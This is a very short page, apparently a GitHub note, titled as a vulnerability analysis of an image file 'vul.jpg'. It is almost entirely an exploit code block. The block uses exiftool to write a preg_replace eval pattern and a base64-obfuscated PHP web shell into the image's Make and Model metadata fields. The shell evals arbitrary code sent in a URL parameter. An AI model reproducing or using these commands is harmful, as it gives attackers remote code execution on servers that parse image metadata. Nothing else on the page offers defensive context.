 Analysis: vulnerability in vul.jpg

Exploit:
```
sudo apt install exiftool
exiftool "-make=/.*/e" vul.jpg
exiftool "-model=eval(base64_decode('aWYgKGlzc2V0KCRfR0VUWyIxIl0pKSB7ZXZhbCgkX0dFVFsiMSJdKTt9'));" vul.jpg
```